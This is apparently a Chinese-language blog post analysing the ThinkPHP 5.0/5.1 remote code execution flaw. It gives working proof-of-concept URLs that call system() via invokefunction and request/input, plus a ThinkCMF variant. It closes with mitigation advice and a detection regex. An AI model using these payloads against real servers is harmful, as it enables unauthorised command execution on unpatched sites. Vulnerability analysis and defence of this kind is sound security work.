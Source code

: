 ```yaml
---
layout: post
title:  "Thinkphp5 getshell漏洞分析"
---
```

# Thinkphp5 getshell漏洞分析

* 通杀所有使用了thinkphp5.0和5.1
* 实际上在不同使用thinkphp5开发的cms中getshell的参数会有差异

### 在thinkphp5 getshell poc
这是目前公开5.0.20的poc<br/>
/index.php?s=index/\think\app/invokefunction&function=call_user_func&var[0]=system&var[1]=ls<br/>
![图片0](https://github.com/white-cell/white-cell.github.io/raw/master/img/_post/8/0.jpg)<br />
调用过程如下<br/>
![图片1](https://github.com/white-cell/white-cell.github.io/raw/master/img/_post/8/1.jpg)<br />
详情分析：https://www.anquanke.com/post/id/167653<br/>
另外可利用的index/\think\request/input<br/>
传入data=ls name= default= filter=system<br/>
![图片2](https://github.com/white-cell/white-cell.github.io/raw/master/img/_post/8/2.jpg)<br />
通过call_user_func执行<br/>
![图片3](https://github.com/white-cell/white-cell.github.io/raw/master/img/_post/8/3.jpg)<br />
并不局限于以上两个方法，但一定是think\这个命名空间下的已知类<br/>
### thinkcmf利用过程区别
getshell poc<br/>
/public/index.php?s=portal/\think\app/invokefunction&function=call_user_func&function_name=system&parameters=whoami<br/>
![图片4](https://github.com/white-cell/white-cell.github.io/raw/master/img/_post/8/4.jpg)<br />
1.thinkcmf默认不存在index，这里我选用portal<br/>
![图片5](https://github.com/white-cell/white-cell.github.io/raw/master/img/_post/8/5.jpg)<br />
2.参数差异，这里要使用function_name parameters<br/>

### 防护
1.代码本身就更新thinkphp5，或修改代码。<br/>
2.防护设备可以匹配s=.*?/\\\\think\\\\.*?来判定，解释下s参数是thinkphp5 var_pathinfo的默认配置为s，利用的类目前也都是在think\这个命名空间下的已知类。<br/>